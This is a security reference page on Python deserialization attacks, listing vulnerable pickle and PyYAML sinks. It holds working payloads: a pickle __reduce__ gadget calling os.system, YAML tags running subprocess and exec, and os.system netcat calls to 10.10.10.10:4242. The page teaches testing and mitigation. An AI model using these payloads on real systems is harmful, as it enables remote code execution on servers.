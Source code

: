 # Python Deserialization

> Python deserialization is the process of reconstructing Python objects from serialized data, commonly done using formats like JSON, pickle, or YAML. The pickle module is a frequently used tool for this in Python, as it can serialize and deserialize complex Python objects, including custom classes.

## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [Pickle](#pickle)
    * [PyYAML](#pyyaml)
* [References](#references)

## Tools

* [j0lt-github/python-deserialization-attack-payload-generator](https://github.com/j0lt-github/python-deserialization-attack-payload-generator) - Serialized payload for deserialization RCE attack on python driven applications where pickle,PyYAML, ruamel.yaml or jsonpickle module is used for deserialization of serialized data.

## Methodology

In Python source code, look for these sinks:

* `cPickle.loads`
* `pickle.loads`
* `_pickle.loads`
* `jsonpickle.decode`

### Pickle

The following code is a simple example of using `cPickle` in order to generate an auth_token which is a serialized User object.
:warning: `import cPickle` will only work on Python 2

```python
import cPickle
from base64 import b64encode, b64decode

class User:
    def __init__(self):
        self.username = "anonymous"
        self.password = "anonymous"
        self.rank     = "guest"

h = User()
auth_token = b64encode(cPickle.dumps(h))
print("Your Auth Token : {}").format(auth_token)
```

The vulnerability is introduced when a token is loaded from an user input.

```python
new_token = raw_input("New Auth Token : ")
token = cPickle.loads(b64decode(new_token))
print "Welcome {}".format(token.username)
```

Python 2.7 documentation clearly states Pickle should never be used with untrusted sources. Let's create a malicious data that will execute arbitrary code on the server.

> The pickle module is not secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

```python
import cPickle, os
from base64 import b64encode, b64decode

class Evil(object):
    def __reduce__(self):
        return (os.system,("whoami",))

e = Evil()
evil_token = b64encode(cPickle.dumps(e))
print("Your Evil Token : {}").format(evil_token)
```

### PyYAML

YAML deserialization is the process of converting YAML-formatted data back into objects in programming languages like Python, Ruby, or Java. YAML (YAML Ain't Markup Language) is popular for configuration files and data serialization because it is human-readable and supports complex data structures.

```yaml
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]
```

```yaml
!!python/object/apply:subprocess.Popen
- ls
```

```yaml
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```

Since PyYaml version 6.0, the default loader for `load` has been switched to SafeLoader mitigating the risks against Remote Code Execution. [PR #420 - Fix](https://github.com/yaml/pyyaml/issues/420)

The vulnerable sinks are now `yaml.unsafe_load` and `yaml.load(input, Loader=yaml.UnsafeLoader)`.

```py
with open('exploit_unsafeloader.yml') as file:
        data = yaml.load(file,Loader=yaml.UnsafeLoader)
```

## References

* [CVE-2019-20477 - 0Day YAML Deserialization Attack on PyYAML version <= 5.1.2 - Manmeet Singh (@_j0lt) - June 21, 2020](https://thej0lt.com/2020/06/21/cve-2019-20477-0day-yaml-deserialization-attack-on-pyyaml-version/)
* [Exploiting misuse of Python's "pickle" - Nelson Elhage - March 20, 2011](https://blog.nelhage.com/2011/03/exploiting-pickle/)
* [Python Yaml Deserialization - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)
* [PyYAML Documentation - PyYAML - April 29, 2006](https://pyyaml.org/wiki/PyYAMLDocumentation)
* [YAML Deserialization Attack in Python - Manmeet Singh & Ashish Kukret - November 13, 2021](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)
